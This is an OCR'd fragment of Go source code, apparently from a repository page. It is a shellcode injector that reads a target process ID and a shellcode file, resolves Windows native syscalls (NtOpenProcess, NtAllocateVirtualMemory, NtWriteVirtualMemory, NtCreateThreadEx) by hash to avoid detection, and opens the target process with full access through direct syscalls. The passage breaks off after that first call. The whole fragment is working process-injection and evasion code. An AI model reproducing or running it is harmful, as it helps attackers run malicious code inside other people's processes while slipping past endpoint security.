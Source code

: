 ```go
  pid_str := os.Args[1]
  shellcode_file := os.Args[2]
  fmt.Println("Process ID: " + pid_str)
  fmt.Println("Shellcode file: " + shellcode_file)

  // Convert CLI argument to int
  pid, _ := strconv.Atoi(pid_str)

  // Open given shellcode file
  f, err := os.Open(shellcode_file)
  if err != nil {
    log.Fatal(err)
  }
  defer f.Close()

  // Convert shellcode to bytes
  shellcode, err := ioutil.ReadAll(f)
  if err != nil {
    log.Fatal(err)
  }

  // Retrieve syscalls with its hashes (check variable name)
  NtOpenProcess, err := FunctionFromHash("b76d2ff3e50b716aefc3d0794643a19c6fd410c826d8ff8856821fcc7dc35888")
  if err != nil {
    log.Fatal(err)
  }

  NtAllocateVirtualMemory, err := FunctionFromHash("078b183f59677940916dc1da6726b10497d230dff219f845c7d04c1f0425c388")
  if err != nil {
    log.Fatal(err)
  }

  NtWriteVirtualMemory, err := FunctionFromHash("6d51355d37c96dec276ee56a078256831610ef9b42287e19e1b85226d451410b")
  if err != nil {
    log.Fatal(err)
  }

  NtCreateThreadEx, err := FunctionFromHash("a3b64f7ca1ef6588607eac4add97fd5dfbb9639175d4012038fc50984c035bcd")
  if err != nil {
    log.Fatal(err)
  }

  NtClose, err := FunctionFromHash("6ee03b14f864a4cd9ceffbf4afca092fd2b635a660f5273f01df1b7a88724f4f")
  if err != nil {
    log.Fatal(err)
  }

  // Start calling functions

  fmt.Println("Calling NtOpenProcess...")
  var pHandle uintptr
  r, err := hooka.Syscall(
    NtOpenProcess,
    uintptr(unsafe.Pointer(&pHandle)),
    0x1F0FFF,
    uintptr(unsafe.Pointer(&windows.OBJECT_ATTRIBUTES{RootDirectory: 0})),
    uintptr(unsafe.Pointer(&ClientID{UniqueProcess: uintptr(pid), UniqueThread: 0})),
  )
```